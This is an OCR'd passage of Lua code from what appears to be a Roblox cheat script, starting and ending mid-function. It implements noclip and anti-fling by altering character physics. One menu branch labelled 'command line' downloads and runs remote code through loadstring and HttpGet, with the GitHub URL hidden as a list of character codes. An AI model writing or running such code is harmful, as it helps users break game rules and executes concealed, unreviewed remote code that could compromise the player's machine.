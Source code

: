             stepped:Wait()
        end
    end
end)

local con = nil
con = stepped:Connect(function()
    if not gui then
        con:Disconnect()
        return
    end
    local lpc = lp.Character
    if noclip and lpc and lpc.Parent then
        for i, v in pairs(lpc:GetDescendants()) do
            if v:IsA('BasePart') then
                v.CanCollide = false
            end
        end
    end
end)

local con0, con1 = nil, nil
local function antiflingF()
    if not gui then
        con0:Disconnect()
        con1:Disconnect()
        return
    end
    if antifling then
        for i, v in pairs(plrs:GetPlayers()) do
            if v ~= lp then
                local c = v.Character
                if c and c.Parent then
                    for i1, v1 in pairs(c:GetDescendants()) do
                        if v1:IsA('BasePart') then
                            v1.CanCollide = false
                            v1.Velocity = v3_0
                            v1.RotVelocity = v3_0
                        end
                    end
                end
            end
        end
    end
end
con0 = stepped:Connect(antiflingF)
con1 = heartbeat:Connect(antiflingF)

gui.Enabled = true
renderstepped:Wait()
playercframe.Visible = false
    elseif Value == '命令行' then
        loadstring(game:HttpGet(utf8.char((function()return table.unpack({104, 116, 116, 112, 115, 58, 47, 47, 114, 97, 119, 46, 103, 105, 116, 104, 117, 98, 117, 115, 101, 114, 99, 111, 110, 116, 101, 110, 116, 46, 99, 111, 109, 47, 89, 105, 70, 101, 110, 103, 45, 68, 101, 120, 47, 89, 70, 47, 109, 97, 105, 110, 47, 73, 70, 37, 69, 53, 37, 57, 49, 37, 66, 68, 37, 69, 52, 37, 66, 66, 37, 65, 52, 37, 69, 56, 37, 65, 49, 37, 56, 67})end)())))()
    elseif Value == '追踪' then
        local Players = game:GetService('Players')
        local Player = Players.LocalPlayer
